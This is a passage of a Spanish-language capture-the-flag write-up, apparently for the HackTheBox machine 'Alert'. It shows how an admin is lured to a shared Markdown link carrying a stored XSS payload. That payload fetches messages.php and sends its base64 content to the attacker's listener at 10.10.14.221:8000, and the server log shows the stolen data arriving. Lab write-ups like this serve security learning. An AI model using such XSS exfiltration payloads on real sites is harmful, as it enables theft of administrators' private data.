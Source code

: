 De aquí, nuevo solamente está `messages.php`, al cual no tenemos acceso navegando por la interfaz. Intentemos ver qué tiene con `curl`:

```bash
$ curl http://alert.htb/messages.php

```

No nos imprime nada, navegando por navegador tampoco, parece ser que no tenemos permisos para ver el contenido de la página, quizás podemos hacer un payload destinado a esto.

No obstante, naveguemos primero a la sección de `contact.php` en la que encontramos un formulario para mandar a quien puede ser un usuario administrador con permisos para poder visualizar la página `messages.php`.

Antes, vamos a abrir un servidor web por el módulo `http.server` de python por el puerto 8000, y mandaremos el enlace al usuario administrador, a ver si hace click.

![alert]({{"/assets/images/alert5.png"}})

```bash
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.231.188 - - [12/Aug/2025 10:42:14] "GET / HTTP/1.1" 200 -
```

Una vez le envíamos el enlace, vemos cómo ha hecho click en el enlace, por lo que podríamos aprovecharlo para la XSS e intentar leer el contenido de `messages.php`.

## EXPLOTACIÓN

Podríamos usar un payload estilo este:

```bash
<script>
fetch('/messages.php')
  .then(r => r.text())
  .then(d => {
    fetch('http://10.10.14.221:8000/?data=' + btoa(d))
  })
</script>
```

Con este payload deberíamos recibir una petición a nuestro servidor, que contenga el parámetro data con el contenido de `messages.php` codificado en base64.

No obstante, tenemos que subir este archivo como MarkDown, y con la opción de `Share MarkDown`, copiar el enlace y pasárlo mediante el formulario de contacto.

![alert]({{"/assets/images/alert6.png"}})

```bash
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.231.188 - - [12/Aug/2025 10:53:28] "GET /?data=PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg== HTTP/1.1" 200 -
```
